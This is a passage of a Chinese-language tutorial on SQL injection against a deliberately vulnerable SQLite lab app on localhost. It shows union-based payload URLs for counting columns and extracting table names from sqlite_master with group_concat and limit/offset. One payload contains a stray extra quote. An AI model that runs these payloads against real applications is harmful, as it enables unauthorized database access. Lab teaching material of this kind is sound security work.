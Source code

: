 1、基于联合查询的SQL注入（数字型或字符型）

2、SQL盲注

<br>

**实验环境**

为了实现基于SQLite的SQL注入，我们需要以下环境：

1、web服务器（这里是apache）

2、PHP环境

3、使用SQLite数据库的存在漏洞的web应用，这里有一个我自己开发的[应用](https://github.com/incredibleindishell/sqlite-lab)

测试应用包里包含PHP代码和SQLite数据库(ica-lab.db).数据库共有两个表单：Info和Users

<br>

**实施攻击**

**1、基于联合查询的SQL注入**

基于联合查询的SQL注入并不难，SQL查询直接去数据库中获取表名以及列名。让我们来试试基于联合查询的SQL注入(数字型)，注入点：

[http://127.0.0.1/sqlite-lab/index.php?snumber=1](http://127.0.0.1/sqlite-lab/index.php?snumber=1)

在尝试order by子句后，我们可以发现列数为5，Inject URL：

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1 union select 1,2,3,4,5--
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b4d45fada235c714.png)

列2，3，4的数据在web页面上被打印出来了，因此我们需要利用这三个列的其中一个或多个。

**获取表名**

在SQLite中，为了猜解表名我们需要运行以下查询：

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

在漏洞应用程序里，如果我们构造像以下这样的链接，web应用将会在2这个位置显示所有表名：

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,group_concat(tbl_name),3,4,5 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c8ee5aa8c9621f3b.png)

为了让表名单独显示，我们可以使用带offset的limit子句，就像这样：

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,tbl_name,3,4,5 FROM sqlite_master where type='table' and tbl_name NOT like 'sqlite_%'' limit 2 offset 1
```

limit后面接的数字是为了获取行数，而offest后面接的数字则为第一次返回结果中的删除数。在上述查询中，limit提取了两个表名，然后哦第一个被offset删除掉，所以我们获得了第二个表名。类似的，为了获取第三个表名，只需要改变limit和offset为3跟2即可，即limit 3 offset 2.
